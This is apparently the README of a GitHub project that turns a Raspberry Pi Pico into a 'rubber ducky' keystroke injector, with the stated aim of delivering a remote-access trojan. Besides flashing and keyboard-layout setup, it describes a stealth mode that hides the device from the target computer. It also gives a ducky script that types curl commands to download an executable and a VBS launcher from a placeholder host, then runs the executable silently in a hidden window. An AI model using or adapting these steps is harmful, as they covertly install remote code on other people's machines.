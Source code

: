 # pi-pico-rubber-ducky

[![Contributors][contributors-shield]][contributors-url]
[![Forks][forks-shield]][forks-url]
[![MIT License][license-shield]][license-url]
[![Issues][issues-shield]][issues-url]


Aim is to run a R.A.T payload btw of a Raspberry Pi-Pico (rp2040) running ducky scripts. Part of : https://github.com/Denis-REMACLE/K-ptain.Ratz


### Using

1. To use this repo please download first the [Circuitpython .uf2 file](https://circuitpython.org/board/raspberry_pi_pico/) 
2. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
3. Jsut drag and drop the `.uf2` file into the root directory of the Pi Pico. The device will now reboot as `CIRCUITPY`.  
4. Download and copy the repo content to the Pico :
```sh
git clone https://github.com/nzkoxzu/pi-pico-rubber-ducky.git
```
```sh
cp -r pi-pico-rubber-ducky/* /media/username/CIRCUITPY/
```
5. [Create your own ducky script](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) and save it as `payload.dd` in the Pico.
6. Careful, if your device isn't in setup mode, the device will reboot and after half a second, the ducky script will run.


# Setup mode

To edit the payload, enter setup mode by connecting the pin 1 (`GP0`) to pin 3 (`GND`), this will stop the pico-ducky from injecting the payload in your own machine. The easiest way to so is by using a jumper wire between those pins as seen bellow.

![setup-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/setup-mode.png)

# USB enable/disable mode

If you need the pico-ducky to not show up as a USB mass storage device for stealth, follow these instructions.
1. Enter setup mode.
2. Copy `boot.py` to the root of the pico-ducky.
Copy your `payload.dd` script to the pico-ducky.
Disconnect the pico from your host PC. Connect a jumper wire between pin 18 (`GND`) and pin 20 (`GPIO15`). This will prevent the pico-ducky from showing up as a USB drive when plugged into the target computer.
Remove the jumper and reconnect to your PC to reprogram. The default mode is USB mass storage enabled.

![usb-boot-mode](https://raw.githubusercontent.com/nzkoxzu/pi-pico-rubber-ducky/main/images/usb-boot-mode.png)

# VBS silently starting malicious file 

For Windows, if you want to silently run `.exe` files you can run them with VBS. Your `payload.dd` should looks like this :

```dd
STRING curl.exe --output not_malicious_file.exe --url https://youwebsite.example/ressources/not_malicious_file.exe
ENTER
DELAY 1000
STRING curl.exe --output starter.vbs --url https://youwebsite.example/ressources/starter.vbs
ENTER
DELAY 1000
STRING wscript starter.vbs
ENTER
```
This will download `not_malicious_file.exe` and `starter.vbs`. The `starter.vbs` looks like this :

```vbs
Dim WShell
Set WShell = CreateObject("WScript.Shell")
WShell.Run "not_malicious_file.exe", 0
Set WShell = Nothing
```
This VBS file will launch `not_malicious_file.exe` and the `, 0` statement enable silent run.


# Changing Keyboard layouts
Copied from [Neradoc/Circuitpython_Keyboard_Layouts](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/blob/main/PICODUCKY.md)  

#### How to use one of these layouts with the pico-ducky repository.

**Go to the [latest release page](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/releases/latest), look if your language is in the list.**

#### If your language/layout is in the bundle

Download the `py` zip, named `circuitpython-keyboard-layouts-py-XXXXXXXX.zip`

**NOTE: You can use the mpy version targetting the version of Circuitpython that is on the device, but on Raspberry Pi Pico you don't need it - they only reduce file size and memory use on load, which the pico has plenty of.**

#### If your language/layout is not in the bundle

Try the online generator, it should get you a zip file with the bundles for yout language

https://www.neradoc.me/layouts/

#### Now you have a zip file

#### Find your language/layout in the lib directory

For a language `LANG`, copy the following files from the zip's `lib` folder to the `lib` directory of the board.  
**DO NOT** modify the adafruit_hid directory. Your files go directly in `lib`.  
**DO NOT** change the names or extensions of the files. Just pick the right ones.  
Replace `LANG` with the letters for your language of choice.

- `keyboard_layout_win_LANG.py`
- `keycode_win_LANG.py`

Don't forget to get [the adafruit_hid library](https://github.com/adafruit/Adafruit_CircuitPython_HID/releases/latest).

This is what it should look like **if your language is French for example**.

![CIRCUITPY drive screenshot](https://github.com/Neradoc/Circuitpython_Keyboard_Layouts/raw/main/docs/drive_pico_ducky.png)

#### Modify the pico-ducky code to use your language file:

At the start of the file comment out these lines:

```py
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS as KeyboardLayout
from adafruit_hid.keycode import Keycode
```

Uncomment these lines:  
*Replace `LANG` with the letters for your language of choice. The name must match the file (without the py or mpy extension).*
```py
from keyboard_layout_win_LANG import KeyboardLayout
from keycode_win_LANG import Keycode
```

##### Example:  Set to German Keyboard (WIN_DE)

```py
from keyboard_layout_win_de import KeyboardLayout
from keycode_win_de import Keycode
```

Copy the files keyboard_layout_win_de.mpy and keycode_win_de.mpy to the /lib folder on the Pico board
```
adafruit_hid/
keyboard_layout_win_de.mpy
keycode_win_de.mpy
```
<p align="right">(<a href="#top">back to top</a>)</p>

[contributors-shield]: https://img.shields.io/github/contributors/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=success
[contributors-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=yellow
[forks-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/network/members
[license-shield]: https://img.shields.io/github/license/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=orange
[license-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/blob/master/LICENSE.txt
[issues-shield]: https://img.shields.io/github/issues/nzkoxzu/pi-pico-rubber-ducky.svg?style=plastic&logo=appveyor&logo=appveyor&color=red
[issues-url]: https://github.com/nzkoxzu/pi-pico-rubber-ducky/issues
